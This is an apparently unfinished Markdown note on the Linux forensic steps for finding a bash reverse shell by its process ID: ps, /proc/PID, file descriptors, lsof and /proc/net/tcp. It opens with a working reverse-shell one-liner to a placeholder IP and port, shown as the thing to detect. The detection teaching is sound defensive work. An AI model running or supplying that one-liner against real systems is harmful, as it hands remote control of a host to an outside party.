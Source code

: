 # Tracking Activity using PID
## reverse shells
```bash
bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1
```

## List processes running
```bash
ps -auxw
```
Listing the processes should allow you to see the bash shell running. The shell will have the interactive (-i) flag. In general, this isn't terribly common and is a good place to start. 

```
add example of what the output will look like from ps command
```



## Change Directory to /proc/PID of the suspicious process
```bash

cd /proc/PID
ls -al
```

```bash
show out up
```

look for exe -> /usr/bin/bash
This shows the reverse shell is connected to this executable
```bash
show out up
```



##
```bash
/proc/PID/fd
ls -al
```
you can see that stdin, stdout, and stderr are all connected to sockets and the inode number that we will see again later. This is a red flag. 
find out what those socket types are. Look for weird files open, payload dirs, etc.


## Search for file opened by this reverse shell
```bash
lsof -p PID
```
this will show the ip addresses of the remote host it has conencted to. Can also use tools like netstat or ss to see open sockets.


## check out /proc/net/tcp 
This will list all open TCP sockets and is the raw data networking tools use to show what is happening. Here we see the inode # of the open sockets and that they are connected to something with TCP.

```bash
cat /proc/net/tcp
```
This will show you the inode number that should match with the inode number shown when seeing the connection to stdin, stdout, stderr. 



### References:
 - https://x.com/craighrowland/status/1802850025443336414
 - https://library.mosse-institute.com/articles/2022/05/perform-remote-code-execution-with-the-use-of-reverse-shells/perform-remote-code-execution-with-the-use-of-reverse-shells.html
 - https://tomtietz.github.io/blog/2023/03/07/remote-shells.html
